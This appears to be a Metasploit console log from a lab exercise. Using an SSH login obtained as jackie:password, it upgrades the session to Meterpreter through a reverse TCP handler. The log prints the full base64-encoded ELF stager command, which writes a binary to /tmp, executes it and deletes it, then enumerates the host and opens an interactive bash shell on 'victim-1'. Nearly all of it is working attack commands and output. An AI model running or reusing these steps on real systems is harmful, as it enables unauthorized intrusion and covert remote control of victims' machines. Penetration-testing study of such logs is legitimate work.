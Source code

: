 ```
msf5 auxiliary(scanner/ssh/ssh_login) > sessions

Active sessions
===============

  Id  Name  Type           Information                            Connection
  --  ----  ----           -----------                            ----------
  1         shell unknown  SSH jackie:password (192.127.83.3:22)  192.127.83.2:40663 -> 192.127.83.3:22 (192.127.83.3)

msf5 auxiliary(scanner/ssh/ssh_login) > sessions -u 1
[*] Executing 'post/multi/manage/shell_to_meterpreter' on session(s): [1]

[!] SESSION may not be compatible with this module.
[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 192.127.83.2:4433 
[*] Sending stage (980808 bytes) to 192.127.83.3
[*] Meterpreter session 2 opened (192.127.83.2:4433 -> 192.127.83.3:53736) at 2023-03-12 03:23:09 +0000
[-] Error: Unable to execute the following command: "echo -n f0VMRgEBAQAAAAAAAAAAAAIAAwABAAAAVIAECDQAAAAAAAAAAAAAADQAIAABAAAAAAAAAAEAAAAAAAAAAIAECACABAjPAAA
ASgEAAAcAAAAAEAAAagpeMdv341NDU2oCsGaJ4c2Al1towH9TAmgCABFRieFqZlhQUVeJ4UPNgIXAeRlOdD1oogAAAFhqAGoFieMxyc2AhcB5vesnsge5ABAAAInjwesMweMMsH3NgIXAeBBbieGZsmqwA82
AhcB4Av/huAEAAAC7AQAAAM2A>>'/tmp/GhXch.b64' ; ((which base64 >&2 && base64 -d -) || (which base64 >&2 && base64 --decode -) || (which openssl >&2 && openssl
 enc -d -A -base64 -in /dev/stdin) || (which python >&2 && python -c 'import sys, base64; print base64.standard_b64decode(sys.stdin.read());') || (which per
l >&2 && perl -MMIME::Base64 -ne 'print decode_base64($_)')) 2> /dev/null > '/tmp/YePRk' < '/tmp/GhXch.b64' ; chmod +x '/tmp/YePRk' ; '/tmp/YePRk' & sleep 2
 ; rm -f '/tmp/YePRk' ; rm -f '/tmp/GhXch.b64'"
[-] Output: "[1] 5804"
msf5 auxiliary(scanner/ssh/ssh_login) > sessions

Active sessions
===============

  Id  Name  Type                   Information                                                                   Connection
  --  ----  ----                   -----------                                                                   ----------
  1         shell unknown          SSH jackie:password (192.127.83.3:22)                                         192.127.83.2:40663 -> 192.127.83.3:22 (192.127.83.3)
  2         meterpreter x86/linux  no-user @ victim-1 (uid=1000, gid=1000, euid=1000, egid=1000) @ 192.127.83.3  192.127.83.2:4433 -> 192.127.83.3:53736 (192.127.83.3)
```

```
msf5 auxiliary(scanner/ssh/ssh_login) > sessions 2
[*] Starting interaction with 2...

meterpreter > sysinfo
Computer     : 192.127.83.3
OS           : Ubuntu 18.04 (Linux 5.4.0-125-generic)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
meterpreter > getuid
Server username: no-user @ victim-1 (uid=1000, gid=1000, euid=1000, egid=1000)
meterpreter > shell
Process 7443 created.
Channel 1 created.
/bin/bash -i
bash: cannot set terminal process group (2909): Inappropriate ioctl for device
```